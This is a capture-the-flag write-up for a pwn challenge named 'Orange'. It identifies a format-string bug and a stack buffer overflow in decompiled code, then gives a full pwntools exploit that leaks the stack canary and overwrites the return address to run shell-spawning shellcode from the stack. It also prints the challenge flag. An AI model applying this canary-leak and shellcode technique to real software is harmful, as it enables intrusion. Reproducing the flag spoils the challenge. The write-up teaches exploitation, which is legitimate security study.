 # Orange
Dive into the juicy depths of this challenge and see if you can squeeze out a surprise.

## Video Write Up
[![Orange Writeup](Resources/thumbnail.png)](https://www.youtube.com/watch?v=iocR-SAEQ7E)

## Write Up

Before diving into any pwn challenge, it's crucial to examine the security mitigations applied during the compilation of the executable. The checksec tool from the pwntools suite is perfect for this:

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
```
As the output shows, the only active mitigation is stack canary. This mitigation works by placing a special value on the stack and checking it before returning from a function to ensure that a buffer overflow has not corrupted the stack.

Running the executable reveals that the program prompts the user to enter a name, which it stores as "Buyer Name." The program then displays an Orange Shop menu with various options:

```
Enter your name: Amir

===== Orange Shop Menu =====
1. Show Cart
2. Show Balance
3. Buy Oranges
4. Checkout
5. Change Buyer Name
6. Exit
============================
Enter your choice:
```

Without access to the source code, we need to use a disassembler like IDA Pro to analyze the program's behavior in detail. Through this analysis, we identify two critical vulnerabilities:

- Stack Buffer Overflow in the set_buyer_name function.
- Format String Vulnerability in the show_cart function.
Here are the relevant code snippets:

```c
int __fastcall show_cart(__int64 a1)
{
  if ( !*a1 )
    return puts("Your cart is empty.");
  printf("Buyer: ");
  printf((a1 + 16));  // Vulnerable: format string
  printf("\nYou have %d oranges in your cart.\n", *a1);
  return printf("Total: $%.2f\n", *(a1 + 8));
}

unsigned __int64 __fastcall set_buyer_name(__int64 a1)
{
  char src[104]; // [rsp+10h] [rbp-70h] BYREF
  unsigned __int64 v3; // [rsp+78h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  printf("Enter your name: ");
  __isoc99_scanf("%s", src); // Vulnerable: stack bof
  strcpy((a1 + 16), src); // Vulnerable: stack bof
  return v3 - __readfsqword(0x28u);
}
```

Given the vulnerabilities and the active mitigations, the next step is to devise an exploitation strategy. The key observations are:
- Executable Stack: The stack is executable, meaning we can inject and run shellcode from the stack.
- Stack Canary: The stack canary must be bypassed to successfully exploit the stack buffer overflow.

To bypass the stack canary, we can exploit the format string vulnerability. This vulnerability allows us to read from the stack, enabling us to leak the canary value. Once we have the canary, we can craft an exploit payload that preserves the canary while overwriting the return address to execute our shellcode.

To control the execution flow, we need to identify suitable Return-Oriented Programming (ROP) gadgets. Using the ROPgadget tool, we find the following useful gadget:

```
0x0000000000401225 : pop r8 ; pop r9 ; pop r10 ; pop r11 ; call rsp
```

This gadget ends with a call rsp instruction, which is ideal for redirecting the program's execution flow to our shellcode on the stack.

With the canary leaked and the ROP chain prepared, the final step is to execute the exploit. Here's the exploit code:
```python
from pwn import *

#context.log_level = 'debug'

elf = context.binary = ELF("./orange")
libc = elf.libc

gs = '''
bp main
continue
'''
def start():
    global gs
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    elif args.REMOTE:
        return remote("0.0.0.0", 5001)
    else:
        return process(elf.path)


def change_name(name:bytes):
    io.sendline("5")
    io.recvuntil(b'Enter your name:')
    io.sendline(name)

def buy_orange(count:int):
    io.sendline("3")
    io.recvuntil(b'Enter the number of oranges you want to buy:')
    io.sendline(str(count).encode())


def show_card():
    io.sendline("1")
    res = io.recvline()
    return res

def initial_name():
    io.recvuntil(b"name:")
    payload = f'%{17}$p'
    io.sendline(payload)

def exit_prog():
    io.sendline("6")

# comment: Find canary offset by fmt string
# for i in range(0, 50):
#     io = start()

#     initial_name()

#     io.recvuntil(b'choice:')
#     buy_orange(1)
#     io.recvuntil(b'choice:')
#     print(f'{i} - ', end='')
#     show_card()

#     sleep(1)

# Leak canary
io = start()
initial_name()
io.recvuntil(b'choice:')
buy_orange(1)
io.recvuntil(b'choice:')
canary = show_card().decode()
canary = int(canary.replace("Buyer: ","").replace("\n",""), 16)

print(f"Canary: {hex(canary)}")

shellcode = asm(shellcraft.amd64.linux.sh())

# Overwrite RIP
payload = shellcode
payload+= b'A' * (104 - len(payload))
payload+= p64(canary)
payload+= b'B' * 8
payload+= p64(0x0000000000401225)

change_name(payload)

io.interactive()
```

# Flag

`UCTF{G1l4n_0r4nge5_4r3_V3ry_d3l1c1ous}`

# Categories

- [ ] Web
- [ ] Reverse
- [X] PWN
- [ ] Misc
- [ ] Forensics
- [ ] Cryptography
- [ ] Blockchain
- [ ] Steganography
- [ ] AI

# Points

| Warm up | This Challenge  | Evil |
| ------- |:---------------:| ----:|
| 25      |       350       | 500  |
